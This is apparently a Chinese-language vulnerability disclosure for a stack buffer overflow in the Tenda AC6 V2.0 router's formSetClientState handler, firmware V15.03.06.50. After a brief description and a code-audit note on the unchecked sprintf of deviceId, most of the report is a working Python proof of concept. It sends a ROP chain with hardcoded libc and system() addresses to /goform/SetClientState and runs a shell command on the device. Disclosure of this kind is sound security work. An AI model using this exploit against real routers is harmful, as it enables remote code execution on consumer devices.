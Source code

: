 # tenda AC6V2.0 缓冲区溢出漏洞报告  

## 漏洞描述  

在 tenda AC6V2.0 的 `formSetClientState` 函数中，存在缓冲区溢出漏洞。该漏洞可能导致攻击者利用恶意输入，覆盖内存中其他重要数据，从而可能导致设备崩溃或执行任意代码。  

## 影响版本  

- V15.03.06.50  

## 代码审计

参数deviceId可控，且它的值通过sprintf函数复制给栈上变量buff，造成溢出

<img width="479" alt="{6F204FC3-3C06-4C46-BBBE-EB8A3C5121B6}" src="https://github.com/user-attachments/assets/4db1f0ca-e368-4b41-882b-13ebc40754d4">



## 漏洞利用证明 (POC)  

```plaintext
import requests
from pwn import *

target_ip = "192.168.0.1"
target_port = 80
cookie = {"bLanguage":"zh", "password":"dmg23f"}

libcbase = 0x7f526000
mov_a0_jmp_sp = 0x28D58 + libcbase    #|addiu $a0,0x20($sp)|  jr   0x1C($sp) |
cmd = b"echo 123 > 1.txt"
system = 0x7f710b10

rop=p32(mov_a0_jmp_sp)+0x1c*b'a'+p32(system)+cmd

def exp_client():
	url = f"http://{target_ip}/goform/SetClientState" 
	payload = b'a'*0x206+rop	
	data = {"deviceId": payload,
		"limitEn": 1,
	}
	response = requests.post(url, cookies=cookie, data=data)
	print(response.text)

exp_client()
